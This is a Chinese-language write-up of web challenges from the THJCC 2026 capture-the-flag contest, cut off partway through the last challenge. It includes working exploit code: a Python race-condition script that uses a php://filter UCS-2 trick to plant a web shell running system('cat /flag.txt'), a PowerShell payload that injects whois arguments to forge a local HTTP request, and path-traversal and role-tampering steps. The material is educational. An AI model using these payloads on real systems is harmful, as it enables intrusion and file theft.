









Web 簡單來說就是和網頁網站有關（甚至是網路世界），反正就是各種網路的題目都會在這就是了。
> WP完成度： (8/12)

# Web分類：
## [Las Vegas](https://ctf2026.thjcc.org/challenges#Las%20Vegas-17) (100)

### 題目：
Lucky 7 7 7
http://chal.thjcc.org:14514
> Ahthor: Frank

### 解題心得：
這題其實很簡單，點進網站後顯示了一個拉霸機，然後我們嘗試玩玩看：

恩，看起來他一定要我們投擲到777才會有Flag，但我們沒有這麼多的時間慢慢賭機率，所以我們打開F12(開發者工具)來看看，然後點進Network發現每次拉霸都會請求一個`?n=XXX`這種東西，而那個數字是拉霸機的數字，那我們就可以合理推斷，他應該是透過這樣來取得狀態的。  
於是我們直接向後端發送777的請求：
```bash
pg72@PGpenguin72:~/Downloads$ curl -X POST http://chal.thjcc.org:14514/\?n\=777
What a Lucky man! THJCC{LUcKy_sEVen_ee9cfe0c7fca2c2d}
```
然後我們就得到了Flag！
### Flag:
```THJCC{LUcKy_sEVen_ee9cfe0c7fca2c2d}```

### [Ear👂](https://ctf2026.thjcc.org/challenges#Ear%F0%9F%91%82-18) (100)

### 題目：
[CWE-698](https://cwe.mitre.org/data/definitions/698.html)

http://chal.thjcc.org:1234
> Author: Frank

### 解題心得：
這題是考你是否知道`CWE-698-EAR`漏洞是什麼，簡單來說就是沒有停止符導致後續代碼的洩漏（應該是可以這樣解釋吧...?），這在Web中會導致嚴重的資安漏洞，那我們就來運用看看吧！  
首先查看一下網頁內容：

直接猜猜看`admin.php`有沒有東西吧，直接使用curl發送請求（Author 是這麼寫的，就是單純猜會有一個管理頁面這樣）：
```bash
pg72@PGpenguin72:~/Downloads$ curl http://chal.thjcc.org:1234/admin.php
<!doctype html>
<html>
<head><meta charset="utf-8"><title>Admin Panel</title></head>
<body>
<p>Admin Panel</p>
<p><a href="status.php">Status page</a></p>
<p><a href="image.php">Image</a></p>
<p><a href="system.php">Setting</a></p>
</body>
```
這裡面還有其他的檔案欸，那我們一個一個查閱後會發現只有`system.php`裡有我們要的Flag：
```bash
pgpenguin72@PGpenguin72:~/Downloads$ curl http://chal.thjcc.org:1234/system.php
<!doctype html>
<html>
<head><meta charset="utf-8"><title>Admin Panel</title></head>
<body>
<p>System settings</p>
<p>THJCC{2cd89747634417ba_U_kNoW-HOw-t0_uSe-EaR}</p>
</body>
</html>
```
#### Flag:
```THJCC{2cd89747634417ba_U_kNoW-HOw-t0_uSe-EaR}```

## [My First React](https://ctf2026.thjcc.org/challenges#My%20First%20React-34) (100)

#### 題目：
https://chal.thjcc.org:25600/
> Author: xiulan

### 解題心得：
這題很麻煩喔，我們就直接點入網頁：

這個網頁要我們登入，而且還很好心的幫我們填上了`guest`了，然後我們點Login看看：

恩... 沒啥東西，那我們直接丟 [Burp Suite](https://portswigger.net/burp) 來分析一下網頁：
> [!NOTE]
> 這是一個可以攔截代理服務器的一個工具，還有修改檢查HTTP/HTTPS流量等功能，廣泛用於掃描漏洞和測試滲透。


我發現點擊登入的時候會有一個請求`/api/login`的部分，然後他回傳的東西很有意思：
```json
{"result":{"role":"guest","username":"guest"},"success":true}
```
這個role看起來很SUS，於是我使用Proxy頁面的`Intercept`來攔截Response並修改成"admin"：

修改後把所有請求回應Forward出去，Flag就跑出來了：


### Flag:
```THJCC{CSR_c4n_b3_d4ng3rrr0us!}```

## [A long time ago...](https://ctf2026.thjcc.org/challenges#A%20long%20time%20ago...-36) (100)

### 題目：
http://chal.thjcc.org:25601/
> Author: xiulan

:::Tip[Download Flie]
[THJCC_long_time_ago.zip](https://file.pg72.tw/share/ffwdPLZC)
:::

### 解題心得：
這題我們先點進去看一下網頁：

好的，一開始就告訴我們admin登入已經被取消了，那我們還是一樣試試看：

好看起來是沒辦法的，那接下來去登入為其他user試試看：

恩？我的Flag被管理員的貓吃了？？？那就按照國際慣例檢查一次cookies和請求，雖然cookie中有個感覺可以做手腳的`PHPSESSID`，不過在不熟的情況下決定去看看題目附錄檔案好了，於是我下載後就解壓縮看看，裡面果然是網頁原始碼。那就先看看`loginController.php`吧：
```php collapse={1-6, 10-17}
<?php
session_start();

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $_SESSION['perms'] = [];

    if ($_POST['username'] === 'admin') {
        die("Admin login is permanently disabled.");
    }

    $perm_key = $_POST['username'];
    $_SESSION['perms'][$perm_key] = 'guest_access';

    $_SESSION['username'] = $_POST['username'];
    header('location: /index.php');
    die();
}
```
這裡發現網站在比對是否為管理員時只有比對是否為`admin`，然後我們可以發現一件事情，這個比對的等號是三個，也就是嚴格比較，這個東西有個規則是當陣列的 Key 是一個合法的十進位數字字串（舉例為`0`），PHP 會自動把它強制轉型成 int。

所以系統在執行`if ($_POST['username'] === 'admin)'`，會變成是 `if (0 == 'admin')`，而php嘗試比較時會把'admin'字串轉型成int，不過由於字串並沒有任何數字，於是判斷式就會變成`if (0 == 0)`，而執行管理員代碼。

那接下來我就不多說了，直接輸入一個數字0來看看，點擊登入：

### Flag:
```THJCC{Meow_M3ow_Me0w}```

## [Secret File Viewer](https://ctf2026.thjcc.org/challenges#Secret%20File%20Viewer-40) (100)

### 題目：
Maybe there are some hidden files beneath the surface...	
http://chal.thjcc.org:30000/
> Author: Grissia

### 解題心得：
這題其實算簡單了，只不過不知道為什麼當初我為什麼沒寫，好像是以為他很麻煩的樣子...?反正就先解題，國際慣例點開網站：

這裡有三個`.txt`檔案，名字分別為file_A、file_B、file_C，我就直接簡單地把txt的文字內容打出來了喔：
```txt
From: Agent K
To: Agent Q
Subject: Web Interface Review

Q,

I’ve taken a look at the new web interface you deployed last night.
The functionality seems fine, but I’m concerned about how files are being handled.

Exposing file paths through user-controllable parameters is always risky.
You know how creative outsiders can be when they start poking around.

Please make sure the client-side logic is solid and add some extra
security measures before this goes any further.

We cannot afford careless mistakes this time.

— K
```
```txt
From: Agent Q
To: Agent K
Subject: Re: Web Interface Review

K,

No need to worry.

I’ve already implemented additional client-side protections.
There is a dedicated script, "script.js" validates file paths, blocks traversal
patterns, and ensures only approved resources can be accessed.

The logic is a bit complex, but that’s intentional.
Anyone trying to tamper with the system will be stopped before reaching
anything sensitive.

I can personally guarantee that the interface is secure now.

You have my word.

— Q
```
```txt
From: Agent K
To: Agent Q
Subject: Re: Re: Web Interface Review

Good to hear.

As long as the safeguards are in place, we should be fine.
Just remember — under no circumstances should sensitive files be exposed.

This includes internal configurations, shared libraries,
and especially the flag file.

If anything like /flag.txt or other critical assets were ever leaked,
the consequences would be severe.

Let’s hope your precautions are as effective as you claim.

— K
```
反正上述內容大意我只抓到這兩個：
1. 有一個腳本 `script.js` 阻止遍歷所有檔案。
2. flag 存在 `/flag.txt`。

好那就先看網頁本身的Script.js吧！我們直接調用F12，然後點選`Sources`後找到`script.js`：
```js collapse={3-112}
(function () {
    "use strict";

    // ====== string table ======
    const _0x5a3d = [
        "log",
        "warn",
        "error",
        "Security check passed",
        "Invalid file path detected",
        "Loading file",
        "obfuscation.php",
        "file",
        "..",
        "/",
        "%2e%2e",
        "base64",
        "atob",
        "btoa"
    ];

    function _0x1c9a(i) {
        return _0x5a3d[i];
    }

    // ====== security module ======
    const SecurityModule = (function () {
        let state = {
            validated: false,
            token: null,
            timestamp: Date.now()
        };

        function generateToken() {
            const raw = Math.random().toString(36).substring(2);
            return window[_0x1c9a(12)](raw);
        }

        function validatePath(path) {
            if (!path) return false;

            // LFI detection
            if (
                path.includes(_0x1c9a(8)) ||
                path.includes(_0x1c9a(10)) ||
                path.split(_0x1c9a(9)).length > 10
            ) {
                console[_0x1c9a(1)](_0x1c9a(4));
                return false;
            }

            return true;
        }

        function init() {
            state.token = generateToken();
            state.validated = true;
            console[_0x1c9a(0)](_0x1c9a(3));
        }

        return {
            init,
            validatePath,
            state
        };
    })();

    // ====== loader ======
    function loadFileSecurely(file) {
        console[_0x1c9a(0)](_0x1c9a(5), file);

        if (!SecurityModule.validatePath(file)) {
            console[_0x1c9a(2)]("Blocked by client-side filter");
            return;
        }

        // request construction
        const fakeUrl =
            _0x1c9a(6) +
            "?" +
            _0x1c9a(7) +
            "=" +
            encodeURIComponent(file);

        void fakeUrl;
    }

    function entropyNoise() {
        let x = 0;
        for (let i = 0; i < 1000; i++) {
            x ^= Math.random() * i;
        }
        return x;
    }

    entropyNoise();

    // ====== Init ======
    document.addEventListener("DOMContentLoaded", function () {
        SecurityModule.init();

        // Pretend to protect buttons
        const buttons = document.querySelectorAll("a.btn");
        buttons.forEach(btn => {
            btn.addEventListener("mouseover", function () {
                const href = btn.getAttribute("href") || "";
                loadFileSecurely(href);
            });
        });
    });

})();
```
我看了看，好像沒有意義，於是我就在想要怎麼下載Flag...然後我就想到剛剛不是有下載那三個txt檔案嗎？然後就嘗試看看以下網頁鏈結路徑：
```txt
http://chal.thjcc.org:30000/download.php?file=files/flag.txt
http://chal.thjcc.org:30000/download.php?file=flag.txt
```
嘗試到第二個的時候就直接成功了，好像有點太簡單了...?只可惜當時沒看到這題要不然還可以再多拿幾分:（
### Flag:
```THJCC{h0w_dID_y0u_br34k_q'5_pr073c710n???}```

## [No Way Out](https://ctf2026.thjcc.org/challenges#No%20Way%20Out-42) (100)

### 題目：
The janitor is fast, and the filter is lethal. You have 0.67 seconds to bypass the exit() trap before your existence is erased.  
http://chal.thjcc.org:8080/
> Author: Auron

:::Tip[Download Flie]
[chal.zip](https://file.pg72.tw/share/n8qGIuYZ)
:::

### 解題心得：
這題先看網頁，網頁上有一些代碼：

這些代碼看不懂，但好像是跳過hacker和退出的指令...?反正先下載zip解壓縮看看。  
裡面有`start.sh`、`Dockerfile`、`docker-compose.yml`、`src\index.php`，但我對php不熟，於是我就詢問了Gemini看看他有什麼建議，他跟我說這題中的`start.sh`是一個當你創建新檔案時，會在0.67秒內刪除的程序：
```sh
#!/bin/bash

(
    inotifywait -m -r -e create --format '%w%f' /var/www/html | while read NEWFILE
    do
        if [ "$(basename "$NEWFILE")" != "index.php" ]; then
            sleep 0.67 
            rm -f "$NEWFILE"
        fi
    done
) &

exec docker-php-entrypoint apache2-foreground
```
而`index.php`主要攔截了使用`base64`、`rot13`、和`string_tag`，讓我們沒辦法直接使用php指令，而且還會直接在每個指令上面加上`<?php exit(); ?>`來終止指令：
```php
<?php
    error_reporting(0);
    $content = $_POST['content'];
    $file = $_GET['file'];

    if (isset($file) && isset($content)) {
        
        $exit = '<?php exit(); ?>';
        $blacklist = ['base64', 'rot13', 'string.strip_tags'];

        foreach($blacklist as $b){
            if(stripos($file, $b) !== false){
                die('Hacker!!!');
            }
        }

        file_put_contents($file, $exit . $content);
    
    usleep(50000);

        echo 'file written: ' . $file;
    }

    highlight_file(__FILE__);
?>
```
於是我們激烈的討論過後，得出我們可以使用`UCS-2`（一個可以反轉兩個字元順序的編碼）然後先繞過exit()，然後再將我們實際要做的事情（寫入flag檔案），在檔案刪除前的0.6秒多前讀取並輸出。於是我和Gemini一起寫了一個腳本來解決這個問題：
```py
import requests
import threading
import os
import time

target = "http://chal.thjcc.org:8080/index.php"
shell_url = "http://chal.thjcc.org:8080/shell.php"

# 1. 自動對齊 Payload 生成器
# 我們要執行的原始指令
cmd = "<?php system('cat /flag.txt');?>" 

# 確保 Payload 是偶數長度，如果不是就補一個空格
if len(cmd) % 2 != 0:
    cmd += " "

# 將 Payload 每兩個字元翻轉一次
# 例如: "ab" -> "ba"
flipped_payload = "".join([cmd[i+1] + cmd[i] for i in range(0, len(cmd), 2)])

print(f"[*] Raw Payload: {cmd}")
print(f"[*] Translated: {flipped_payload}")

def write():
    # 使用 Session 保持連線，速度會快很多
    s = requests.Session()
    params = {
        "file": "php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php"
    }
    data = {"content": flipped_payload}
    while True:
        try:
            s.post(target, params=params, data=data, timeout=1)
        except:
            pass

def read():
    s = requests.Session()
    while True:
        try:
            r = s.get(shell_url, timeout=1)
            if "THJCC{" in r.text:
                print(r.text.strip())
    
        except:
            pass

def start_race():
    # 開 15 個執行緒寫入，15 個執行緒讀取
    for _ in range(15):
        threading.Thread(target=write, daemon=True).start()
    for _ in range(15):
        threading.Thread(target=read, daemon=True).start()

    while True:
        time.sleep(1)

if __name__ == "__main__":
    start_race()
```
然後在Gemini的幫助下，我學習到了php的一些知識並且拿到了Flag！
```bash
pg72@PGpenguin72:~/Downloads$ python3 write_read.py
[*] Raw Payload: <?php system('cat /flag.txt');?>
[*] Translated: ?<hp pystsme'(ac tf/al.gxt't;)>?
?<hp pxeti)( ;>?THJCC{h4ppy_n3w_y34r_4nd_c0ngr47_u_byp4SS_th7_EXIT_n1ah4wg1n9198w4tqr8926g1n94e92gw65j1n89h21w921g9}
```
### Flag:
```THJCC{h4ppy_n3w_y34r_4nd_c0ngr47_u_byp4SS_th7_EXIT_n1ah4wg1n9198w4tqr8926g1n94e92gw65j1n89h21w921g9}```

## [who is whois]() (100)

### 題目：
who is whois???  
http://chal.thjcc.org:13316/
> Author: 夜有夢

:::Tip[Download Flie]
[chal(1).zip](https://file.pg72.tw/share/lXbKm_0l)
:::

### 解題心得：
這題看起來和whois這個查詢網域資訊內容相關的感覺，反正就先看網頁：

恩...看起來就很單純，我試試看查詢我的網域：

也很正常，那直接研究壓縮包裡面的東西好了，我發現裡面主要代碼是`app.py`：
```py
from flask import Flask, request, render_template_string
import subprocess, shlex
import pyotp
import base64

app = Flask(__name__)

INDEX_HTML = """
<!doctype html>
<html lang="zh-Hant">
<head>
  <meta charset="utf-8">
  <title>Whois 查詢</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <style>
    body { font-family: monospace; margin: 2rem; }
    form { margin-bottom: 1rem; }
    input[type=text]{ width: 36rem; max-width: 100%; padding: .5rem; }
    button{ padding: .5rem 1rem; }
    pre { white-space: pre-wrap; word-wrap: break-word; background:#f4f4f4; padding:1rem; border-radius:.5rem; }
    .argv{ color:#555; font-size:.9rem; }
  </style>
</head>
<body>
  <h1>Whois 查詢</h1>
  <form method="POST" action="/whois">
    <label>Domain name
      <input name="domain" type="text" placeholder="example.com" required>
    </label>
    <button type="submit">查詢</button>
  </form>
  
    <h2>結果</h2>
    <pre>{{ result }}</pre>
  
    <h2>錯誤</h2>
    <pre>{{ error }}</pre>
  
</body>
</html>
"""
FLAG_VALUE = "THJCC{fake_flag_for_test}"
LOCAL_IPS = {"127.0.0.1", "::1"}

_ENC_SECRET = "Jl5cLlcsI10sKCYhLS40IykpMyQnIF8wIjEtPTM6OzI="
_XOR_KEY = "thjcc"

def _xor_decode(data: str, key: str) -> str:
    raw = base64.b64decode(data)
    return "".join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(raw))

def _get_totp_secret():
    return _xor_decode(_ENC_SECRET, _XOR_KEY)

def _deny(msg: str, code: int = 403):
    return (msg + "\n", code, {"Content-Type": "text/plain; charset=utf-8"})

@app.route("/", methods=["GET"])
def index():
    return render_template_string(INDEX_HTML, result=None, error=None, argv=None)

@app.route("/whois", methods=["POST"])
def whois_lookup():
    raw = request.form.get("domain", "").strip()
    if not raw:
        return render_template_string(INDEX_HTML, result=None, error="缺少參數", argv=None), 400

    try:
        args = ["whois"] + shlex.split(raw)
        proc = subprocess.run(args, capture_output=True, text=True, timeout=15)
    except subprocess.TimeoutExpired:
        return render_template_string(INDEX_HTML, result=None, error="查詢逾時", argv=" ".join(args)), 504
    except Exception as e:
        return render_template_string(INDEX_HTML, result=None, error=str(e), argv=" ".join(args) if 'args' in locals() else None), 500

    if proc.returncode != 0:
        return render_template_string(INDEX_HTML, result=None, error=proc.stderr or "whois 執行失敗", argv=" ".join(args)), 500

    return render_template_string(INDEX_HTML, result=proc.stdout, error=None, argv=" ".join(args))

@app.route("/flag", methods=["POST"])
def flag():
    if request.remote_addr not in LOCAL_IPS:
        return _deny("error: local only", 403)

    if request.headers.get("admin", "") != "thjcc":
        return _deny("error: missing/invalid admin header", 403)

    safekey = request.form.get("safekey", "").strip()
    if not safekey:
        return _deny("error: missing safekey", 400)

    totp = pyotp.TOTP(_get_totp_secret())
    if not totp.verify(safekey):
        return _deny("error: invalid totp", 403)

    return (FLAG_VALUE + "\n", 200, {"Content-Type": "text/plain; charset=utf-8"})

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=13316)
```
這裡代碼有幾個重點：
1. 網站有一個`/whois`可以用來post並獲取`whois`的查詢資料。 
2. 網站有一個`/flag`可以用來post，但是只能用於local。
3. 想調用flag需要過`TOTP`驗證。

於是我依照這兩個思路開始想，我想到這應該和代碼注入有關，簡單來說就是網頁有一個調用whois的部分，那我可以透過這個發送一個調用並且同時調取`/flag`路由，這樣對伺服器來說就是透過主機內部調取了。  
不過我並不會寫這個的相關指令，於是又詢問了Gemini，最後他幫我寫了一個powershell 腳本，然後我也把TOTP的解密也解決了：
```ps1
# 1. 填入你剛剛新鮮產生的 TOTP 驗證碼 (請確保在 30 秒內執行)
$totp = "填入新的6位數字" 

# 2. 構造 Payload（注意結尾的雙引號已經修正，並使用 PowerShell 的跳脫字元 `"`）
$domain = "-h 127.0.0.1 -p 13316 `"POST /flag HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aadmin: thjcc%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 14%0d%0a%0d%0asafekey=$totp`""

# 3. 發送請求 (加入 -UseBasicParsing 避免惱人的警告)
$response = Invoke-WebRequest `
    -Uri "http://chal.thjcc.org:13316/whois" `
    -Method POST `
    -Body "domain=$domain" `
    -ContentType "application/x-www-form-urlencoded" `
    -UseBasicParsing

# 4. 提取並顯示 <pre> 標籤中的伺服器內部回應
if ($response.Content -match '(?s)<pre>(.*?)</pre>') {
    Write-Host "伺服器回應結果:" -ForegroundColor Cyan
    Write-Host $matches[1] -ForegroundColor Green
} else {
    Write-Host "未找到結果，完整原始碼如下："
    Write-Host $response.Content
}
```

```py
import base64, pyotp

_ENC_SECRET = "Jl5cLlcsI10sKCYhLS40IykpMyQnIF8wIjEtPTM6OzI="
_XOR_KEY = "thjcc"

